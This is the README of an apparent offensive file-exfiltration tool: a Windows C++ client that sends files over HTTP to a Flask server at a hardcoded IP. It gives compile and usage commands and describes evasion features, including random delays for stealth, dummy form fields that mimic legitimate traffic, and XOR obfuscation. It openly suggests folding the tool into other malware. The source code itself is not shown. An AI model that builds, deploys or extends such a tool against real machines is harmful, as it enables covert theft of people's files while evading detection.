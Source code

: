 # File Exfiltration Tool

## Overview
This project is to demonstrate a data exfiltration feature written in C++ with a Python-based server for a penetration testing engagement.This tool can also be intergrated into other malware funcitonalities. The tool allows you to transfer files from a client machine to a remote server over HTTP, with options for chunking, delays, and type-specific processing. The tool supports various file types (e.g., `.txt`, `.png`, `.docx`, `.pdf`), with image files transferred without encryption for direct usability, while other types are XOR-encrypted for basic obfuscation.

### Features:
- File type detection and processing (e.g., no encryption for images).
- Optional chunking to split large files into smaller pieces.
- Optional random delays between chunks for stealth.
- Base64 encoding for HTTP transmission.
- Dummy form fields to mimic legitimate traffic.
- Simple Python Flask server to receive and reassemble files.

> **Disclaimer:** This tool is for educational purposes only. Unauthorized use for malicious purposes is illegal and unethical.

## Prerequisites

### Client (C++)
- **Operating System:** Windows (uses WinHTTP API).
- **Compiler:** MSVC (e.g., `cl` via Visual Studio) or MinGW (e.g., `g++`).
- **Libraries:** WinHTTP (included with Windows).

### Server (Python)
- **Operating System:** Any (tested on Windows/Linux).
- **Python:** 3.6+.
- **Dependencies:** Flask (`pip install flask`).
- **Network:** Server must be reachable on port 80 (configurable).

## Setup

### Client

#### Clone the Repository:
```bash
git clone https://github.com/yourusername/file-exfiltration-tool.git
cd file-exfiltration-tool
```

#### Compile the C++ Code:

Using MSVC:
```bash
cl client.cpp /link winhttp.lib
```
Using MinGW:
```bash
g++ client.cpp -o client.exe -lwinhttp
```
**Output:** `client.exe`.

### Server

#### Install Dependencies:
```bash
pip install flask
```

#### Run the Server:
1. Save the Python script as `server.py`.
2. Start it on the target machine (e.g., `192.168.2.214`):
   ```bash
   python server.py
   ```
3. Ensure port `80` is open and the server is reachable.

## Usage

### Client
Run the compiled executable with the following syntax:
```bash
client.exe <file_path> [-c] [-d]
```
- `<file_path>`: Path to the file to exfiltrate (e.g., `image.png`, `doc.docx`).
- `-c`: Enable chunking (splits file into 1024-byte pieces).
- `-d`: Enable random delays (1–5 seconds between chunks, requires `-c`).

#### Examples:
Transfer a PNG file as a single piece:
```bash
client.exe image.png
```
Transfer a text file in chunks with delays:
```bash
client.exe notes.txt -c -d
```

**Output:**
- Logs bytes read, sent, and server response status.
- Success message: `"Data sent successfully to 192.168.2.214."`

### Server
- The server listens on `0.0.0.0:80` and saves received files as `exfiltrated_data.<ext>` (e.g., `exfiltrated_data.png`).
- Logs chunk reception and final file size.

#### Example Output:
```
Received chunk 1 of 3, size: 1368 bytes
Received chunk 2 of 3, size: 1368 bytes
Received chunk 3 of 3, size: 500 bytes
File fully received and saved as exfiltrated_data.png, size: 3236 bytes
```

## File Type Handling
- **Images** (`.png`, `.jpg`, `.jpeg`, `.bmp`): Transferred unencrypted.
- **Text** (`.txt`), **Office** (`.docx`, `.xlsx`), **PDF** (`.pdf`): XOR-encrypted with key `"mysecretkey"`.
- **Other Types**: Default to XOR encryption, saved with `.bin` extension if no extension is detected.

## Notes
- **Server IP:** Hardcoded to `192.168.2.214:80`. Modify `server_host` and `server_path` in `client.cpp` for a different target.
- **Chunk Size:** Fixed at `1024` bytes when chunking is enabled. Adjust `chunk_size` in `client.cpp` as needed.
- **Security:** XOR encryption is basic and not secure for real-world use; consider stronger methods for production.

## Troubleshooting
- **Empty Output File:** Check client/server logs for size mismatches or errors (e.g., `"WinHttpSendRequest failed: 12029"` = server unreachable).
- **Network Issues:** Ensure the server is running and reachable (`ping 192.168.2.214`, `telnet 192.168.2.214 80`).
- **Corrupted Images:** Verify original file integrity; test without chunking (`client.exe image.png`).

## Contributing
Feel free to fork this repository and submit pull requests with improvements (e.g., stronger encryption, more file type processors, configuration options).

## License
This project is licensed under the MIT License. See the `LICENSE` file for details.
